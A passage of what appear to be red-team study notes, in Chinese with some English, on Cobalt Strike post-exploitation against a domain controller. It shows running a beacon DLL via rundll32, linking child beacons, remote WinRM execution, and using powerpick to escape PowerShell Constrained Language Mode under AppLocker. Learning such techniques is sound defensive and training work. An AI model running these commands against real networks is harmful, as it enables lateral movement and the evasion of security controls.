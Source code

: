 C:\>C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
```

```
beacon> link dc-1
[+] established link to child beacon: 10.10.15.75
```


# PowerShell Constrained Language Mode

当启用AppLocker时，PowerShell被置于受限语言模式（CLM）中，该模式将其限制为核心类型。

```$ExecutionContext.SessionState.LanguageMode```将显示执行进程的语言模式。

```
beacon> remote-exec winrm dc-1 $ExecutionContext.SessionState.LanguageMode

PSComputerName RunspaceId                           Value              
-------------- ----------                           -----              
dc-1           9dd4aebc-540e-4683-b3f7-07b6f799266e ConstrainedLanguage
```

jump winrm[64]和其他 PowerShell 脚本将失败并出现错误:**Cannot create type. Only core types are supported in this language mode.**

```
beacon> remote-exec winrm dc-1 [math]::Pow(2,10)

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Cannot invoke method. Method invocation is supported only on core types in this language mode._x000D__x000A_</S><S S="Error">
```


CLM 与 AppLocker 一样脆弱，因此任何 AppLocker 绕过都可能导致 CLM 绕过

Beacon 有一个```powerpick```命令,在CLM下可以替代powershell

> So if we find an AppLocker bypass rule in order to execute a Beacon, powerpick can be used to execute post-ex tooling outside of CLM

```
beacon> run hostname
dc-1

beacon> powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

beacon> powershell [math]::Pow(2,10)
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Cannot invoke method. Method invocation is supported only on core types in this language mode._x000D__x000A_</S><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+ [math]::Pow(2,10)_x000D__x000A_</S><S S="Error">+ ~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : MethodInvocationNotSupportedInConstrainedLanguage_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
